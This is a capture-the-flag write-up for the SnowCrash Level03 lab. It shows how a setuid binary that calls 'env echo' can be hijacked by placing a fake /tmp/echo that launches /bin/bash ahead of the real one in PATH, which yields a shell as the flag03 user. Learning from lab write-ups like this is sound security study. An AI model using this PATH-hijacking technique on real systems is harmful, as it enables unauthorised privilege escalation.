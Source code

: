 # Level03

## Research
------------

```bash
level03@SnowCrash:~$ ls -l
-rwsr-sr-x  1  flag03  level03  8627  Mar  5  2016  level03

level03@SnowCrash:~$ whoami
level03

level03@SnowCrash:~$ groups
level03 users
```

`The s in rws stands for setuid meaning set user ID. When applied to an executable file, it sets the effective user ID from that of the real user (the user actually running the program) to that of the program's owner. Most often this is given to a few programs owned by the superuser. When an ordinary user runs a program that is "setuid root" , the program runs with the effective privileges of the superuser. This allows the program to access files and directories that an ordinary user would normally be prohibited from accessing. Clearly, because this raises security concerns, the number of setuid programs must be held to an absolute minimum.` <br/>
https://askubuntu.com/questions/857066/meaning-of-the-access-permissions-rws-and-root-root-of-usr-bin-sudo

So my user ID will go from level03 to flag03 (program's owner) during the execution of level03.

- How can I make this program run getflag ?

```bash
level03@SnowCrash:~$ ./level03
Exploit me

level03@SnowCrash:~$ strings level03
[...]
/usr/bin/env echo Exploit me
[...]
```

We can see the program calls the echo function. The ENV utility will invoke the first sh or bash executable found in the user's $PATH.<br/>
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code <br/>
https://stackoverflow.com/questions/43793040/how-does-usr-bin-env-work-in-a-linux-shebang-line

`The PATH environment variable is a colon-delimited list of directories that your shell searches through when you enter a command.`

## Solution
-----------

If we make a fake echo function, then change the path so that it finds our echo first instead of the real one, tt will run it as flag03.

- Steps:

  - Make a fake echo function
      ```bash
      echo "/bin/bash" > /tmp/echo
      ```
      This will create a fake echo that will execute /bin/bash, that is a new connection to our shell with the current user's permission.
      
  - Make this script executabled by flag03
      ``` bash
      chmod 777 /tmp/echo
      ```
      
  - Change path
      ``` bash
      export PATH=/tmp:$PATH
      ```
      We added tmp directory at the start of the path.



Do command `env` and see path went from: <br/>
`PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games`<br/>
to <br/>
`PATH=/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games`


```bash
level03@SnowCrash:~$ ./level03
```

You are now flag3 because you "opened" a new shell with the rights of flag03.

You can now launch `getflag`.

https://www.cgsecurity.org/Articles/SecProg/Art1/index-fr.html

